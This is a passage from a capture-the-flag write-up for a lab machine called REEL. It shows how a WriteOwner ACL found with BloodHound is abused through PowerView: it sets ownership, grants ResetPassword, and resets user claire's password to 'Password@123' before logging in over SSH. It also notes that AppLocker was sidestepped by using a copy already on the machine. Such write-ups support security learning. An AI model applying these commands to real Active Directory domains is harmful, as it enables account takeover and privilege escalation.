 ```
tom@REEL C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors>dir                              
 Volume in drive C has no label.                                                             
 Volume Serial Number is CEBA-B613                                                           

 Directory of C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors                             

05/29/2018  08:57 PM    <DIR>          .                                                     
05/29/2018  08:57 PM    <DIR>          ..                                                    
11/17/2017  12:50 AM           112,225 acls.csv                                              
10/28/2017  09:50 PM             3,549 BloodHound.bin                                        
10/24/2017  04:27 PM           246,489 BloodHound_Old.ps1                                    
10/24/2017  04:27 PM           568,832 SharpHound.exe                                        
10/24/2017  04:27 PM           636,959 SharpHound.ps1
```

So there's already a `csv` file present with the ACLs we need. I transferred file back to my machine via `smbserver.py`, and opened it in `libreoffice`. Then, I searched for the user `tom` to see if they had any permissions.

I found that our current user has WriteOwner permissions over the user `claire`.

<figure><img src="../../../.gitbook/assets/image (62) (7).png" alt=""><figcaption></figcaption></figure>

This would mean that `tom` can add permissions over `claire`, of which we don't have any yet. To abuse this, we first need to set `tom` as the owner of the ACLs over `claire` using PowerView.&#x20;

Oddly, there's a copy of PowerView on the machine already:

```
tom@REEL C:\Users\tom\Desktop\AD Audit\BloodHound>dir                                        
 Volume in drive C has no label.                                                             
 Volume Serial Number is CEBA-B613                                                           

 Directory of C:\Users\tom\Desktop\AD Audit\BloodHound                                       

05/30/2018  12:44 AM    <DIR>          .                                                     
05/30/2018  12:44 AM    <DIR>          ..                                                    
06/16/2023  03:09 AM    <DIR>          Ingestors                                             
10/30/2017  11:15 PM           769,587 PowerView.ps1
```

I originally tried copying over my own copy and executing it, but AppLocker kept blocking me. However, using the already present script works. We can then abuse this ACL by setting `tom` as the object owner and changing passwords of `claire`:

```powershell
Set-DomainObjectOwner -Identity claire -OwnerIdentity tom    
Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword
$cred = ConvertTo-SecureString 'Password@123' -AsPlainText -Force
Set-DomainUserPassword -identity claire -accountpassword $cred                                 
```

Afterwards, we can `ssh` in as `claire` using this password.&#x20;
